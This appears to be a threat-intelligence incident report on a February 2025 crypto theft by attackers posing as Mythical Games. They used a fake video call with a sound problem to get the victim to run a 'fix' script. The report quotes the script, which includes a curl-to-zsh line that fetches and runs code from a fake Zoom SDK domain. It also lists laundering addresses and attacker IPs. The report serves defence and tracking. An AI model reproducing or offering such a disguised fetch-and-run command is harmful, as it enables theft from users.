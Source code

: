 # A6 via Fake Mythical Games

Date:: February 28th, 2025

Time:: 12:25 UTC – 01:58 UTC, 23:09 UTC

Amount Stolen:: $406,343

Tags:: 🔑 SquidSquad

---


## Details

Had a video call with the exploiters

Was an issue with the sound

Victim ran the suggested fix script provided by the exploiters.

On call were 3 males. 2 didnt speak, one did. Seemed like live interaction (?)

- “John Linden” - @mythicaljohn - 7440942015

- https://calendly.com/john-mythicalgames/30min?month=2025-03

- meet[.]mythicalgames[.]foundation/zoom/join?mn=65185420&pwd=r47BVC

```
system_profiler SPAudioData
softwareupdate --evaluate-products --products audio --agree-to-license
curl -A audio -s https://api.zoom-sdk[.]us/update/drivers/65185420 | zsh
system_profiler SPSoundCardData
softwareupdate --evaluate-products --products soundcard
system_profiler SPSpeechData
softwareupdate --evaluate-products --products speech --agree-to-license
```




## Onchain

- TK3E1NWkehLoBKUWbhjUudxxjN4abYdu7T - Direct Theft

- EQAq887cEkvOMBdafawfjl8JqKIsk3DQopMT8q79D7r - Direct Theft

- 0x37ef7efda71203f17f26730611bd8eef11f5f8af - Primary Theft

- 0xd5944357a065245064a8b8dfc58e789a90dce0f6 - Consolidation

- TGoZ4yeuG13ysYYZEX334PvnqyWDnDJ2JT - Source of Gas Funds (2025-02-28)

- TAJFh3AqQKm6bvUYejJrH3k8htwTbunn5g - Source of Gas Funds (2025-02-28)

- 0x73565a7488cb4853c17923d88da3ccb81fd9aa8e - eXch Depo ($192k, 2025-03-14)

- 0x0c52194fd9148de91e96a8e123ab90f1482c6449 - eXch Depo ($218k, 2025-03-14)

- bc1q9knpsljy40j5jmphcyl7nzvhjvch5gp6kzhwnn - eXch Withdrawal ($191k)

- bc1qv4qm5jy2qy30ggjlygkd2665t90dcwuyga9hxe - eXch Withdrawal ($218k)

- bc1qfe4h6ghdg0fj37ftmsw437mfc4e74v5pvhfx8u - Laundry (Apr 10 2025)

- Used Defiway, ChangeNOW, FixedFloat, Symbiosis, OKX Dex, Bridgers from TRON and TON -> ETH



## Indicators

- 2025-02-28 - 85.203.44.XX

- 2025-03-03 - 103.125.146.XX

- 2025-03-03 - 103.163.220.XX

- 2025-03-03 - 83.234.227.XX (Leaked TTK)

- 2025-03-03 - 212.30.36.XX

